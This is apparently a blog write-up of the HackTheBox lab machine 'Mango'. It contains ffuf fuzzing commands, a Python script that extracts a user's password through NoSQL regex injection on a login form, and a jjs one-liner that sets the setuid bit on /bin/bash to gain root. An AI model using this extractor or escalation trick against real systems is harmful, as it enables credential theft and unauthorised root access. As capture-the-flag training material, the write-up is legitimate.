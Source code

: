 ```yaml
---
categories:
- CTF
image:
  path: https://img.youtube.com/vi/laah9gT2UR4/0.jpg
layout: post
media_subpath: /assets/posts/2020-04-18-mango-hackthebox
tags:
- hackthebox
- jjs
- linux
- mongodb
- nosql
title: Mango @ HackTheBox
---
```


Mango is a 30-point linux machine on hackthebox that involves a NoSQL-Injection which allows to obtain user passwords from a mongo database. For root we find the tool jjs, which is owned by root and has the setuid bit set. This allows us to run custom java code as root.

{% youtube laah9gT2UR4 %}

## Notes

Fuzzing the webroot:

```
~/tools/ffuf/ffuf -w ~/tools/SecLists/Discovery/Web-Content/raft-large-files.txt -u http://staging-order.mango.htb/FUZZ -fc 403
~/tools/ffuf/ffuf -w ~/tools/SecLists/Discovery/Web-Content/raft-large-directories.txt -u http://staging-order.mango.htb/FUZZ -fc 403
~/tools/ffuf/ffuf -w ~/tools/SecLists/Discovery/Web-Content/raft-large-directories.txt -u http://staging-order.mango.htb/vendor/FUZZ -fc 403
```

Installed.json

```
http://staging-order.mango.htb/vendor/composer/installed.json
```

MongoDB data extraction:

```python
#!/usr/bin/env python3
import re
import requests
import string

chars = string.ascii_letters + string.digits + string.punctuation
password = ""
url = "http://staging-order.mango.htb/"
done = False

while not done:
    done = True
    for c in chars:
        data = {
            "username": "mango",
            "password[$regex]": f"^{re.escape(password+c)}.*$",
            "login": "login"
        }
        r = requests.post(url, data=data, allow_redirects=False)
        if r.status_code == 302:     
            done = False       
            password += c
            print(f"[+] Found {c}")
print(f"[+] Password: {password}")
```

Jjs:

```
Java.type('java.lang.Runtime').getRuntime().exec('chmod u+s /bin/bash').waitFor()
```